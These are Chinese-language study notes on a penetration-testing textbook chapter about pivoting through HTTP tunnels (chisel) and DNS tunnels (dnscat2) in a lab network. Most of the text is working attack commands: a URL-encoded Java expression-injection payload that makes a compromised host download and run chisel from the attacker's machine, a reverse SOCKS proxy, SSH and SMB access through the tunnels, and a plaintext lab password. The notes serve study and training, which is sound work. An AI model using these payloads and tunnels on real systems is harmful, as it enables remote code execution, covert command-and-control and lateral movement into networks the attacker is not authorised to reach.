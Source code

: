 本篇对应教材第19章，主要内容“HTTP隧道”、“DNS隧道”，记录使用工具和命令

## 19.1 HTTP隧道

### 19.1.2 使用chisel搭建HTTP隧道

kali（192）---linux跳板1（192和10）---目标（10）

kali开启web服务提供下载chisel使用，并开启chisel反向代理

```armasm
sudo systemctl start apache2
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
gunzip chisel_1.8.1_linux_amd64.gz
sudo cp ./chisel /var/www/html

chisel server --port 8080 --reverse
```

在linux跳板1上下载并执行

```armasm
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

linux跳板1上是使用web漏洞进行命令执行的，需要url编码

```armasm
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/

curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

kali上查看，默认是1080端口开socks服务，安装ncat，ssh到10段通过本地的1080端口socks转发

```armasm
ss -ntplu
sudo apt install ncat
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

## 19.2 DNS隧道

### 19.2.2 使用dnscat2搭建DNS隧道

kali（192）---……---跳板（任意和172）--目标（172）

前提是跳板发出的dns请求不管转发多少次，最终由kali上的服务端解析

在kali上启动dnscat2的服务端

```armasm
dnscat2-server feline.corp
```

启动后会开启53端口监听

跳板上启动dnscat2客户端

```armasm
./dnscat feline.corp
```

运行成功后会在服务端看到客户端连接成功，查看并配置客户端转发策略，就可以本地连接目标172主机

```armasm
windows
window -i 1
?
listen --help
listen 127.0.0.1:4455 172.16.2.11:445

smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
```

更多更新资料（微信公众号：TopRedTeam）

![](./qrcode.jpg)
